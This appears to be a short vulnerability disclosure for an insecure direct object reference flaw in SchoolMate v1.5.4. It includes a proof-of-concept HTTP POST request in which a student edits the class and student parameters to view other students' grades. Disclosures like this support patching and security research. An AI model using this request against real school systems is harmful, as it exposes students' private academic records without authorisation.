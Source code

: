 # Exploit Title: SchoolMate v1.5.4 - Insecure Direct Object Reference(IDOR)
## Date: 1/4/2024
## Vendor Homepage: https://sourceforge.net/projects/schoolmate/files/latest/download
## Tested on: Debian Linux, Apache, Mysql
## Vendor: SchoolMate
## Version: v1.5.4
## Exploit Description:
## SchoolMate v1.5.4 suffers from IDOR - Broken Access Control Vulnerability allowing attacker student to look up grade of other student in every class(horizontal privilege escalation).

## ---------------------------------POC-----------------------------
```
POST /index.php HTTP/1.1
...

page2=3&logout=&page=4&selectclass=1(CHANGE HERE)&student=3(CHANGE HERE)
```